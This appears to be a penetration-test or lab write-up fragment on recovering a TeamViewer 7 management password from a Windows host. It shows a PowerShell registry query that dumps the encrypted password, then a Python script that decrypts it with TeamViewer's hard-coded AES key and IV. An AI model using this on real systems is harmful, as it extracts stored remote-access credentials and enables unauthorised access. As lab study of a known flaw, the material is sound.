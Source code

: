 32bit windows 10 teamviewer 7 installed, searching for exploit leads to [https://whynotsecurity.com/blog/teamviewer/](https://whynotsecurity.com/blog/teamviewer/), there author has a python exploit, ~~need to compile to exe~~ search manually in registry with powershell: [https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-itemproperty?view=powershell-7](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-itemproperty?view=powershell-7)

```text
PS C:\Windows\Temp> Get-ItemProperty -Path HKLM:\SOFTWARE\WOW6432Node\Teamviewer\Version7 
Get-ItemProperty -Path HKLM:\SOFTWARE\WOW6432Node\Teamviewer\Version7


StartMenuGroup            : TeamViewer 7
InstallationDate          : 2020-02-20
InstallationDirectory     : C:\Program Files (x86)\TeamViewer\Version7
Always_Online             : 1
Security_ActivateDirectIn : 0
Version                   : 7.0.43148
ClientIC                  : 301094961
PK                        : {191, 173, 42, 237...}
SK                        : {248, 35, 152, 56...}
LastMACUsed               : {, 005056B9188D}
MIDInitiativeGUID         : {514ed376-a4ee-4507-a28b-484604ed0ba0}
MIDVersion                : 1
ClientID                  : 1769137322
CUse                      : 1
LastUpdateCheck           : 1584564540
UsageEnvironmentBackup    : 1
SecurityPasswordAES       : {255, 155, 28, 115...}
MultiPwdMgmtIDs           : {admin}
MultiPwdMgmtPWDs          : {357BC4C8F33160682B01AE2D1C987C3FE2BAE09455B94A1919C4CD4984593A77}
Security_PasswordStrength : 3
PSPath                    : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Teamviewer\Vers
                            ion7
PSParentPath              : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Teamviewer
PSChildName               : Version7
PSDrive                   : HKLM
PSProvider                : Microsoft.PowerShell.Core\Registry
```

Got tv info stored in registry, including the Management password

```python
import sys, hexdump, binascii
from Crypto.Cipher import AES

class AESCipher:
    def __init__(self, key):
        self.key = key

    def decrypt(self, iv, data):
        self.cipher = AES.new(self.key, AES.MODE_CBC, iv)
        return self.cipher.decrypt(data)

key = binascii.unhexlify("0602000000a400005253413100040000")
iv = binascii.unhexlify("0100010067244F436E6762F25EA8D704")
hex_str_cipher = "357BC4C8F33160682B01AE2D1C987C3FE2BAE09455B94A1919C4CD4984593A77"			# output from the registry

ciphertext = binascii.unhexlify(hex_str_cipher)

raw_un = AESCipher(key).decrypt(iv, ciphertext)

```